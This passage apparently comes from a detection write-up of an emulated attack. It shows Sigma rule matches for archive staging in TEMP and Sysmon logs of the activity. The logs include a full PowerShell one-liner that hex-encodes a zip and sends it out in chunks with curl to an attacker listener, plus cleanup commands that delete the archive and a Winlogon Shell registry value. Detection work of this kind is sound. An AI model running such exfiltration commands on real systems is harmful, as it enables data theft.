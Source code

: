 Aurora Agent: Rule Matched:

```
1. Sigma rule match found: Folder Compress To Potentially Suspicious Output Via Compress-Archive Cmdlet
		Match_Strings: 'Compress-Archive -Path $env:USERPROFILE\\Downloads -DestinationPath $env:TEMP' in CommandLine
2. Sigma rule match found: Zip A Folder With PowerShell For Staging In Temp - PowerShell 
		Match_Strings: 'Compress-Archive -Path $env:USERPROFILE\\Downloads -DestinationPath $env:TEMP' in Data
		
```

### Exfiltration: Exfiltrating Hex-Encoded Data Chunks over HTTP

Sysmon Log: Process Creation

```
UtcTime 2025-03-31 10:53:31.707 
  ProcessGuid {c5d2b969-742b-67ea-4c01-000000002901} 
  ProcessId 1052 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "$file=\"$env:TEMP\exfil.zip\"; $destination=\"http://10.10.39.5:8080/\"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe \"$destination$line\" } echo \"Done exfiltrating the data. Check your listener.\"" 
  ParentProcessId 5464 

```

Process Creation. All the next 23 Curl.exe Process execution is to exfiltrate the file

<img width="855" height="683" alt="image" src="https://github.com/user-attachments/assets/d6321d35-00f7-4a3a-9613-849ec760e431" />

Then, 23 network connections are made to the attacker's machine

<img width="838" height="699" alt="image" src="https://github.com/user-attachments/assets/51a5766b-0a62-4398-9895-60b4d79eb4fc" />

After the exfiltration is done, the cleanup command is executed

```
UtcTime 2025-03-31 10:55:12.814 
  ProcessId: 5116 
  Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName: PowerShell.EXE 
  CommandLine: powershell.exe -ExecutionPolicy Bypass -C "Remove-Item -Path $env:TEMP\exfil.zip -ErrorAction Ignore" 
  ParentProcessId: 5464 
  
```

**Process Creation:**

```
 UtcTime 2025-03-31 10:55:13.917 
  ProcessGuid {c5d2b969-7491-67ea-6501-000000002901} 
  ProcessId 5824 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "Remove-ItemProperty -Path \"HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\\" -Name \"Shell\" -Force -ErrorAction Ignore" 
  ParentProcessId 5464 

```
